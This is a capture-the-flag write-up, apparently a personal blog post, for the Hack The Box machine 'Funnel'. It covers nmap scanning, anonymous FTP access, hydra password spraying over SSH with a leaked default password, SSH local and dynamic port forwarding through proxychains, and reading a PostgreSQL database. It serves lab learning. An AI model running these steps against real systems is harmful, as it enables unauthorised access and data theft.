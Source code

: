 ```yaml
---
layout: single
title: "Funnel htb"
date: 2024-01-30
classes: wide
header:
  teaser: /assets/images/avatar.jpg
tags:
  - ftp
  - anonymous
  - ssh
  - tunneling
  - local port forwarding
  - ftp
  - anonymous
  - proxychains
  - hydra
---
```


## Introduction
This box mainly introduce a hands-on method called `tunneling`, which is a protocol that allows the movement data from one network to another, so that the attackers can communicate with internal network. 

**SSH tunneling**: A specific type of tunnel that uses SSH protocol to establish secure connection between two endpoints.

There are 3 types of ssh tunneling:

- **Local Port Forwarding**
Simply forward the traffic from the local port to the remote port
- **Remote Port Forwarding**
Reverse version of local port forwarding
- **Dynamic Port Forwarding**
it uses `SOCKS` protocol within the tunnel, within the tunnel, there is a socks proxy server that built on the local machine to route network traffic through the tunnel.

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled.png)

## Info Collecting

```go
nmap -T4 -A -sV $ti
nmap -sC -sV $ti

-sC: perform default scripts
-sV: display the version info
-T4: agreesive mode, not stealthy
-A: a combination options, referred to agressive mode

```

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled%201.png)

The red box frames the directory name that is available on the FTP server. 

> find there is a ftp server running on the server, then try anonymous login
> 

### FTP

```go
ftp <ftp_server_ip>
user: anonymous
password: anonymous
cd mail_backup
get <file_name>
```

> after login, download the leaked files from the anonymous account
> 

```go
echo "10.129.228.195 funnel.htb" | sudo tee -a /etc/hosts
```

```go
cat welcome_28112022 | grep -oE '[a-zA-Z0-9_.-]+@funnel\.htb'

-o means matching part of the content rather than the whole line
-E means using regex
[a-zA-Z0-9_.-]+ means multi(+) chars that matched in range of the square bracket
```

> get the initial password, trying to access by ssh
> 

### sed

```go
ssh $(sed -n 'np' accs)

- `np`: nth line
- `d`: Deletes the line(s) specified by the line number. For example, `4d` deletes the 4th line.
- `s/pattern/replacement/`: Substitutes `pattern` with `replacement` on the specified line(s). For example, `s/foo/bar/` replaces the first occurrence of "foo" with "bar" on the line(s).
- `/^pattern/p`: Prints the line(s) starting with `pattern`. For example, `/^Error/p` prints lines starting with "Error".
- `/pattern/d`: Deletes the line(s) containing `pattern`. For example, `/foo/d` deletes lines containing "foo".
```

> christine’s account still use the initial password, collecting the info in the ssh
> 

## Foothold

### ssh

```go
hydra -L usernames.txt -p 'funnel123#!#' {target_IP} ssh

ifconfig
netstat -ant
ps -ef | grep 

```

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled%202.png)

> this container belongs to root, no privilege,
> 

use `ss -tl` command to display the networks sockets, connections, it is a powerful placement for older `netstat`

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled%203.png)

### SS

```go
-t tcp connections
-l listening sockets
-a all open network sockets
-u udp connections
-s detailed socket statistics
-e extended socket info
```

## Tunneling

knowing that `postgresql` is open on port `5432`, but there is no `psql` command on target machine, so use ssh tunneling to forward traffic

```go
vul > ssh -L 7654:localhost:5432 christine@funnel.htb
```

```go
att > psql -h 127.0.0.1 -p 7654 -U christine
```

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled%204.png)

### psql postgresql

```go
\l list all databases
\c switch database
\dt list all tables in this database
select * from <table_name>
```

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled%205.png)

## Appendix

using the  dynamic ssh tunnel

```go
ssh -D 1234 christine@$ti

echo socks5 127.0.0.1 1234 | sudo tee -a /etc/proxychains4.conf

proxychains psql -U chrinstine -h localhost -p 5432
```

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled%206.png)